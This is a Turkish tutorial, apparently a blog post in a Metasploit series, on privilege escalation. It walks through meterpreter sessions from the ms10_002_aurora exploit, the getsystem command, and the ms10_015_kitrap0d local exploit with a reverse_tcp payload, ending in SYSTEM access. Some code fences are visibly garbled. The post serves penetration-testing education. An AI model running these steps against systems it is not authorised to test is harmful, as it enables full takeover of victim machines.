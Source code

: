 ```yaml
---
draft: false

title:  'MSF Yetki Yükseltme'
date: '2017-05-25T13:16:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.' 
 
url:  /tr/msf-yetki-yukseltme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ya sonra?



Bir sistemin zafiyetini bulmak için gerekli çalışmaları yaptınız. Açık noktasını buldunuz ve doğru adımları uyguladıktan sonra hedef bilgisayarda bir komut satırı açmayı başardınız. Peki bundan sonra ne yapılmalı?



Bu yazımızdan itibaren yetki yükseltme olarak ifade edilen (İng: Privilege Escalation) kavramı inceleyeceğiz. Karşı sisteme erişim sağlayan güvenlik denetçisini bu aşamadan itibaren ilerleme sağlamayı hedeflemelidir. Ağda devam eden iletişimi kontrol etme, hash değerlerini elde etme bunlara örnek olarak verilebilir. Bir diğer hedef ise, bu bilgisayarı basamak olarak kullanarak (İng: Pivoting) başka bilgisayarlara erişim sağlamak olmalıdır.



Kullandığınız zafiyet ve buna yönelik exploit modülü karşı bilgisayarda oturum açmanıza yaramış olsa bile yetkisiz bir oturum açmış olabilirsiniz. Bu durumda yapabileceğiniz işlemler kısıtlı olacaktır. Böyle durumlar için Metasploit Framework içerisinde bulunan bir kaç alternatif modül bulunmaktadır. bunlardan bir tanesi de `getsystem` komutudur.



## Yetkisiz Oturum



Aşağıdaki örnekte görüldüğü gibi, hedef sistemde `ms10_002_aurora` modülü kullanılarak yetkisiz bir meterpreter oturumu açılmıştır.


```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 3 opened (192.168.1.71:38699 -> 192.168.1.161:4444) at 2010-08-21 13:39:10 -0600

msf exploit(ms10_002_aurora) > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```



## GetSystem



`getsystem` komutunu kullanabilmek için öncelikle `priv` eklentisini sisteme yükleyelim.


```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```



`getsystem -h` komutunda olduğu gibi `-h` parametresini kullandığınızda kullanılabilir seçenekleri görebilirsiniz.



``sh meterpreter > getsystem -h Usage: getsystem [options]



Attempt to elevate your privilege to that of local system.



OPTIONS:


```bash
-h        Help Banner.
-t <opt>  The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
```



meterpreter >


```bash

```getsystem
``` komutuna hiçbir parametre vermezseniz, varsayılan olarak tüm ihtimalleri deneyecektir. 

```sh
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```



## Yerel Exploit Kullanma



Bazı durumlarda `getsystem` başarısız olur. Aşağıda bunun örneğini görebilirsiniz. `getsystem` başarısız olduğunda oturumu arka plana gönderip, Metasploit Framework içerisindeki diğer exploit modüllerini kullanmak gerekmektedir.


```bash
meterpreter > getsystem
**[**-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```



Yukarıda başarısız olmuş bir `getsystem` komutu çıktısı görülüyor. Şimdi bunu arka plana gönderelim ve kullanılabilir durumdaki yerel exploit modüllerine bakalım.


```bash
meterpreter > background
> Backgrounding session 1...
msf exploit(ms10_002_aurora) > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora) >
```



Bu listedeki modüllerden `exploit/windows/local/ms10_015_kitrap0d` modülünü kullanalım.


```bash
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf exploit(ms10_015_kitrap0d) > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
**[**+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
**[**+]  Exploit finished, wait for** (hopefully privileged) payload execution to complete.
>  Sending stage (769024 bytes) to 192.168.1.71
>  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400
```



Gerekli modül ve payload ayarlarını yaptıktan sonra çalıştırılan exploit, hedef sistemde bir oturum açmayı başarmıştır. Şimdi `getuid` komutunu verdiğimizde `SYSTEM` yetkili bir kullanıcı gibi hareket edilebileceği aşağıda görülmektedir.


```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >```
